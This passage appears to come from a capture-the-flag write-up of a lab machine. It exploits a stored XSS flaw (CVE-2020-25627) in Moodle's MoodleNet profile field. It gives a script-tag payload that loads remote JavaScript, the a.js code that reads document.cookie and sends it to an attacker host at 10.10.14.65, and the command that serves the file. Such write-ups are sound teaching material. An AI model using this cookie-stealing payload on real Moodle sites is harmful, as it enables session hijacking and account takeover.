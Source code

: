 Looking for vulnerabilties in the MoodleNet field in the user profile we find a possible stored XSS vulnerability in [CVE-2020-25627](https://moodle.org/mod/forum/discuss.php?d=410839), which seems to be just what we need to advance right now. Also the `HttpOnly` flag for the session cookie is not set which promises success.

To exploit it we put this payload in the MoodleNet profile, editing the profile of the user we created.

[![moodle_xss](/img/schooled/moodle_xss.png)](/img/schooled/moodle_xss.png)

We choose a payload that includes a javascript file hosted by use to have more room to work with.

```
<script src="http://10.10.14.65/a.js"></script>
```

After that we standup a python webserver on port 80, hosting a script with the following content and update the profile containing our payload.

`a.js`
```js
var cookie = document.cookie;

xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.14.65/' + cookie, false);
xhr.send();
```

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
